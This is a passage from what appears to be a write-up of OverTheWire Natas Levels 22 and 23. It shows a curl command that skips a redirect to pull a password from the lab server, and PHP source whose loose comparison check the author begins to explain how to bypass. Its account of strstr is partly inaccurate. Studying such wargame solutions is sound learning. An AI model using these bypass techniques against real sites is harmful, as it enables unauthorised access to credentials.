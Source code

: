 This is an extremely easy challenge. It will reveal the password as long as we have the parameter `revelio` in a GET request. However, if we look at the snippet at the top, if the `revelio` parameter exists, it will redirect us back to the home page. Luckily for us, `curl` doesn't follow redirects by default so we don't have to do anything special to solve this.

```bash
curl -s "http://natas22:$natas22_pass@natas22.natas.labs.overthewire.org/index.php?revelio" | sed "s/$natas22_pass//g" | egrep -o [[:alnum:]]{32}
```

[*Back to top*](#overthewire---natas)

## Level 23

![natas23_index.jpg](screenshots/natas/natas23_index.jpg)

[Sourcecode](http://natas23.natas.labs.overthewire.org/index-source.html):

```php
<?php
    if(array_key_exists("passwd",$_REQUEST)){
        if(strstr($_REQUEST["passwd"],"iloveyou") && ($_REQUEST["passwd"] > 10 )){
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas24 Password: <censored></pre>";
        }
        else{
            echo "<br>Wrong!<br>";
        }
    }
    // morla / 10111
?>
```

For this challenge, we have to pass this check to get the password:

```php
        if(strstr($_REQUEST["passwd"],"iloveyou") && ($_REQUEST["passwd"] > 10 )){
```

We have to find a way to send a password that equals `iloveyou` but has a value greater than 10. If we look at the documentation for the [strstr](https://www.php.net/manual/en/function.strstr.php) function, we see that it searches a string for the first occurrence of a string. The return value of this function is everything matching the second parameter, `iloveyou` in our case, to the end of the string. This means we can add whatever we want to the beginning of the password and it will be parsed out.
